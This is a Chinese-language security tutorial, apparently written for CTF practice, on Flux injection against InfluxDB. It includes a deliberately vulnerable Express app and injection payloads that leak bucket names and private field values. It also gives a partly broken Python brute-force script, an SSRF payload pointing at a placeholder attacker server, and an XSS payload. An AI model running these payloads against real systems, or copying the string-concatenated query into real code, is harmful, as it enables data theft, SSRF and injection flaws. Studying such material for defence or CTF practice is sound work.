







# Nosql inject-InfluxDB - 先知社区

Nosql inject-InfluxDB

- - -

# InfluxDB

在正式注入之前，我们先要了解一些关于 influxdb 必要的知识（主要是这个数据库确实比较冷门，但是不排除 ctf 会考）

## 什么是 InfluxDB

InfluxDB 是一种流行的开源时间序列数据库，旨在处理大量带时间戳的数据。InfluxDB 广泛用于监控和分析来自传感器、应用程序和物联网设备等各种来源的指标、事件和实时数据。

## influxDB 的数据组织

InfluxDB 数据模型将时间序列数据组织到存储桶和测量中。一个桶可以包含多个测量值。测量包含多个标签和字段。

-   **Bucket**：存储时间序列数据的指定位置。一个桶可以包含多个*测量值*。
    -   **测量**：时间序列数据的逻辑分组。给定测量中的所有*点都应具有相同的\_\_标签*。一个测量包含多个\_标签\_和*字段*。
        -   **Tags**：键值对，其值不同，但不经常更改。标签用于存储每个点的元数据 - 例如，用于识别数据源（如主机、位置、站点等）的东西。
        -   **字段**：键值对，其值随时间变化，例如：温度、压力、股票价格等。
        -   **Timestamp**：与数据关联的时间戳。当存储在磁盘上并查询时，所有数据都按时间排序。  
            \## 写入数据的一些操作  
            首先，我们要知道——写入 influxdb 的数据都是通过一个叫做 **line protocol**（翻译叫做线路协议，感觉翻译的不是很好，所以就直接拿出来，以下简称:LP）  
            在官方文档中举了一个例子：  
            \`\`\`js  
            // Syntax  
            <measurement>\[,<tag\_key>=<tag\_value>\[,<tag\_key>=<tag\_value>\]\] <field\_key>=<field\_value>\[,<field\_key>=<field\_value>\] \[<timestamp>\]</timestamp></field\_value></field\_key></field\_value></field\_key></tag\_value></tag\_key></tag\_value></tag\_key></measurement>

// Example  
myMeasurement,tag1=value1,tag2=value2 fieldKey="fieldValue" 1556813561098000000

````plain
官方文档还提示到：
Line protocol does not support the newline character `\n` in tag or field values.
也就是`\n`不支持转义为换行符，而是代表一个单独的point
关于这个协议的一些要素


### measurement
必须存在，且每一个数据点仅接受一个measurement，并且遵循命名规则：
Measurement names, tag keys, and field keys cannot begin with an underscore `_`. The `_` namespace is reserved for InfluxDB system use.
它的数据类型为：string
### Tag set
【不为必须，可选】该点的所有标签键值对。键值关系用`=`操作数表示。多个标签键值对以逗号分隔。 _标签键和标签值区分大小写。标签键受到命名限制。标签值不能为空；相反，从标签集中省略该标签。
数据类型：string

### Field set
必须存在，和measurement一样，必须存在至少一个field，字段键和字符串值区分大小写，同样受到命名限制。
数据类型：对于键名：string
对于值：FLOAT INTEGER ULINTEGER STRING BOOLEAN

example(双引号表示filed的值):
```sh
measurementName fieldKey="field string value" 1556813561098000000
````

### Timestamp

【可选择的】也就是我们常说的时间戳。InfluxDB 接受每个点一个时间戳。如果未提供时间戳，InfluxDB 将使用其主机的系统时间 (UTC)。  
数据类型：Unix Timestamp

#### 关于时间戳的重要说明(from docs)

-   为了确保数据点包含观察指标的时间（未由 InfluxDB 接收），请包含时间戳。
-   如果您的时间戳不是纳秒，请在将数据写入 InfluxDB时指定时间戳的精度。

### 其他的一些东西

#### Quotes(单引号)

| Element | Double quotes | Single quotes |
| --- | --- | --- |
| Measurement | *Limited* \* | *Limited* \* |
| Tag key | *Limited* \* | *Limited* \* |
| Tag value | *Limited* \* | *Limited* \* |
| Field key | *Limited* \* | *Limited* \* |
| Field value | **Strings only** | Never |
| Timestamp | Never | Never |

#### Special Characters(一些特殊的字符`\`)

在以下情况下，需要使用反斜杠 ( `\`) 转义某些字符

| Element | Escape characters |
| --- | --- |
| Measurement | Comma, Space |
| Tag key | Comma, Equals Sign, Space |
| Tag value | Comma, Equals Sign, Space |
| Field key | Comma, Equals Sign, Space |
| Field value | Double quote, Backslash |

### model of LP

关于这个LP，官方也给出了一个模型，可以用来构建一个LP

-   **measurement**: `home`
    -   **tags**
        -   `room`: Living Room or Kitchen
    -   **fields**
        -   `temp`: temperature in °C (float)
        -   `hum`: percent humidity (float)
        -   `co`: carbon monoxide in parts per million (integer)
    -   **timestamp**: Unix timestamp in *second* precision

## 查询的操作

两种查询语言：

-   **Flux**：一种函数式脚本语言，旨在查询和处理来自 InfluxDB 和其他数据源的数据。
-   **InfluxQL**：一种类似 SQL 的查询语言，旨在从 InfluxDB 查询时间序列数据。

### Flux语法

#### 基本格式

```plain
from(bucket: "example-bucket")
    |> range(start: -1d)
    |> filter(fn: (r) => r._measurement == "example-measurement")
    |> mean()
    |> yield(name: "_results")
```

-   from(): 从哪个bucket中查询
-   range(): 根据时间范围过滤数据。Flux 需要“有界”查询——仅限于特定时间范围的查询。
-   filter(): 根据列值过滤数据。每行由 表示`r` ，每列由 的属性表示`r`。可以使用多个过滤器.
-   yield():输出。
-   mean():计算每个输入表的列中非空值的平均值`_value`  
    \#### Pipe-forward operator(管道转发符)  
    Flux 使用管道转发运算符 ( `|>`) 将一个函数的输出作为输入传递到下一个函数作为输入。  
    docs也是举了一个例子1:  
    以下 Flux 查询返回存储在**家庭测量中的** **co**、**hum**和**temp**字段，其时间戳**在 2022-01-01T08:00:00Z 和 2022-01-01T20:00:01Z 之间**。
    
    ```plain
    from(bucket: "get-started")
      |> range(start: 2022-01-01T08:00:00Z, stop: 2022-01-01T20:00:01Z)
      |> filter(fn: (r) => r._measurement == "home")
      |> filter(fn: (r) => r._field== "co" or r._field == "hum" or r._field == "temp")
    ```
    

### influxQL 语法

InfluxQL 是一种类 SQL 查询语言，与大多数 SQL 语言类似，但专门设计用于查询 InfluxDB 0.x 和 1.x 中的时间序列数据。

#### 基本的查询知识

-   `SELECT`: 指定要查询的字段和标签。
-   `FROM`: 指定要查询的测量值。使用测量名称或包含数据库和保留策略的完全限定测量名称。例如：`db.rp.measurement`。
-   `WHERE`: (可选）根据字段、标签和时间过滤数据。
    
    ```plain
    SELECT co,hum,temp,room FROM "get-started".autogen.home WHERE time >= '2022-01-01T08:00:00Z' AND time <= '2022-01-01T20:00:00Z'
    ```
    
    其实就和 sql 语句差不多。

## 注入利用

经过上面基础知识的学习，想必你已经有了一定的概念，那么我们就开始利用吧

### 构建一个易被攻击的 web

```plain
const express = require('express');
const {InfluxDB, Point} = require('@influxdata/influxdb-client')

const app = express();

const token = 'REDACTED' // InfluxDB Token
const url = 'https://127.0.0.1' // Local Database endpoint
const org = 'myOrg'
const bucket = 'publicBucket'

const client = new InfluxDB({url, token})

async function query(fluxQuery) {
  results = []

  queryApi = client.getQueryApi(org)

  for await (const {values, tableMeta} of queryApi.iterateRows(fluxQuery)) {
    o = tableMeta.toObject(values)
    console.log(o)
    results.push(o)
  }

  return results
}

app.get('/query', async (req, res) => {
    try {
      const fluxQuery = 'from(bucket:"' + bucket + '") |> range(start: 0)  |> filter(fn: (r) => r._field == "public_field" and r._value == "' + req.query.data + '") '
      result = await query(fluxQuery)

      res.send(result)
    } catch (err) {
      res.send(err.toString())  
    }
});

const port = 3000;

app.listen(port, () => {
  console.log(`Server started on port ${port}`);
});
```

当我们只传入`"`的时候  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233754-ddffb756-c117-1.png)

发现了报错，也就是：

```plain
const fluxQuery = '
from(bucket:"' + bucket + '") 
|> range(start: 0)  
|> filter(fn: (r) => r._field == "public_field" and r._value == "' + req.query.data + '") '
result = await query(fluxQuery)
```

这样的查询语句，其报错内容在 [https://docs.influxdata.com/influxdb/v2.7/](https://docs.influxdata.com/influxdb/v2.7/) 可以查找到，所以可以知道是 influxdb 的数据库

### 构建一些 playload

#### 泄露 bucket 的名称

playload：

```plain
") |> yield(name: "1337") 
buckets() |> filter(fn: (r) => r.name =~ /^a.*/ and die(msg:r.name)) 
//
```

1.  该`buckets()`函数列出当前数据库中的所有存储桶。
2.  该`filter()`函数使用`r.name`表达式来过滤存储桶名称，该名称`r`是存储桶查询的结果，并且`name`是函数中返回的字段`buckets()`。
3.  如您所见，InfluxDB 查询支持正则表达式操作`=~`，因此条件背后的逻辑`r.name =~ /^a.*/`是，`true`如果存储桶名称以字母 开头，则为该条件`a`。
4.  之后，过滤器使用一个`and`条件来调用函数，`die()`并将存储桶名称的值作为参数。该`die()`函数会抛出一个错误，并在第一个参数中传递自定义消息，这将泄漏存储桶名称。
5.  有效负载也在`yield()`存储桶查询之前使用该函数。这是在 InfluxDB 上的单个请求中执行“多个查询”所必需的。
6.  最后，有必要用`yield()`一个新行将 与存储桶查询分开，并且在有效负载的末尾，我在`//`另一个新行后面添加了表达式，以注释注入后的所有内容。

也就是如果数据库中存在以`a`开头的数据库名，他就会返回其 name，如果没有的话就会返回 null  
当为`a`时：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233801-e233d41a-c117-1.png)  
当为`p`时：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233810-e74d1470-c117-1.png)

```plain
可以看见返回了`privateBucket`这个 bucket，这个地方可以用 burp 爆
```

exp.py:

```plain
import requests
import string
url = "https://127.0.0.1:3000?query="
para1= " ") |> yield(name: "1337") buckets() |> filter(fn: (r) => r.name =~ /^{}.*/ and die(msg:r.name)) //"
s=''+string.ascii_letters
flag = sensitive_field
for i in range(0,52):
    for j in s:
        try:
            htmlLen = requests.get(url=url+para1.format(j)).text
        except:
            print(j)
        if flag in htmlLen:
            print(htmlLen,endd='')
            break
//为了让你们更加直观的看见 playload，所以这里没有进行编码，所以可能在 para1 处会报错。
```

#### 泄露 bucket 及其相关数据

前面已经有 bucket 的名称了，所以就直接 from

```plain
") |> yield(name: "1337") 
 from(bucket: "privateBucket") |> range(start: 0) |> filter(fn: (r) => die(msg:r)) 
 //
```

这里就是把`filter`中的`r`也就是匹配出来的所有东西都输出出来  
最终页面返回：

```plain
_value: B,
_time: time,
_stop: time,
_start: time,
_measurement: string,
_field: string
```

也就是这个 bucket 中的所有的结构和其对应的数据类型，那么接下来便可以爆破其字段的名称

```plain
") |> yield(name: "1337")
 from(bucket: "privateBucket") |> range(start: 0) |> filter(fn: (r) => r._field =~ /s.*/ and die(msg:r._field))
 //
```

也就是爆破出以`s`开头的字段名称，这个和前面泄露 bucket 名的是一个原理

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233822-ee7a3b92-c117-1.png)

可以看见这个字段名为：`sensitive_field`  
接下来就是爆其数据了

```plain
") |> yield(name: "1337")
 from(bucket: "privateBucket") |> range(start: 0) |> filter(fn: (r) => r._field == "sensitive_field" and die(msg:string(v:r._value)))
 //
```

注意下这里的数据类型！！不然可能会报错 (放出为 int 类型的时候，**因为 r.field 默认为 int 类型**)

```plain
HttpError: runtime error @2:54-2:124: filter: type conflict: string != int
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233828-f207fa88-c117-1.png)

可以看见这里的值为 1337

## SSRF 利用

在官方文档中，可以看见 influxdb 在 from 函数之中是可以接受 host 参数的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233833-f5117fe2-c117-1.png)

所以可以构造 playload：

```plain
") |> yield(name: "1337")
 from(bucket: "1337", host:"https://ATTACKER-SERVER") |> range(start:0)
 //
```

## XSS 利用

看见上面构建的程序

```plain
app.get('/query', async (req, res) => {
    try {
      const fluxQuery = 'from(bucket:"' + bucket + '") |> range(start: 0)  |> filter(fn: (r) => r._field == "public_field" and r._value == "' + req.query.data + '") '
      result = await query(fluxQuery)

      res.send(result)
    } catch (err) {
      res.send(err.toString())  
    }
});
```

当 InfluxDB 查询中发生错误时，该`try{ } catch{ }`语句会将错误发送回客户端，并使用`Content-Type`equals to `text/html`，允许浏览器加载 HTML 和 JavaScript。  
这个时候我们就可以利用 die 函数在浏览器上执行 xss

```plain
") die(msg:"")//
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233838-f829e6d8-c117-1.png)
